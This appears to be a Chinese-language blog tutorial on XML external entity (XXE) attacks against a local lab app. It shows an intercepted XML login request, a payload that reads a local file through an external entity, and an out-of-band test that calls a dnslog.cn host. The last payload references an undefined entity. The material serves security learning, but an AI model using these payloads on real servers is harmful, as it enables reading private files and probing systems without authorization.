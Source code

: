 ```plain
这类漏洞与之前的漏洞有所不同，格式传输上的不同。在格式传输中有json，字符串，xml格式。
参考：https://www.cnblogs.com/20175211lyz/p/11413335.html


访问：127.0.0.1:8081/web/php_xxe
进行抓包
```

![1646631985058-d53cf979-c5f8-42f9-9e39-4471250200b9.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657744-1218227147.png)

```plain
发现账号密码的传输格式是：<user><username>admin</username><password>amdin</password></user>
数据包中X-Requested-With: XMLHttpRequest   Accept: application/xml

如果是自己博客的登录账号密码
```

![1646632474426-3f0b8072-a7e8-45a3-9aba-60865cae7be0.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102655101-173679462.png)

```plain
这两个在数据传输的过程：
<user><username>admin</username><password>amdin</password></user>
btnPost=%E7%99%BB%E5%BD%95&username=admin&password=21232f297a57a5a743894a0e4a801fc3&savedate=1

Accept: text/html这个也是不同的。

所以他的接受数据是不一样的，那么他肯定是从xml格式去接受数据。
那么他在代码中是怎么处理数据的呢？
```

![1646633163807-309725aa-45e0-4bfd-a130-8ff0a03a23fc.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102655977-190139109.png)

```plain
那么如果用带有恶意的xml语言去访问他，那么他是不是会形成漏洞呢？

客户端：xml发送数据
服务端：xml解析数据

利用xml写一个带有文件读取的代码尝试发送，如果被解析，那么就会得到类似文件读取功能实现。

那么如何去写文件读取代码呢？

读文件：
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///d:/www.txt">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```

![1646633954230-279af0a7-2af3-4906-99b8-3f824c9d9d5c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656015-60033851.png)

```plain
可以看到得到了www.txt的内容。

那么还有其他的玩法吗？可以参考：https://www.cnblogs.com/20175211lyz/p/11413335.html

带外测试：（能不能加载远程文件）
用到平台dnslog.cn

<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://ua4zzy.dnslog.cn">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>
```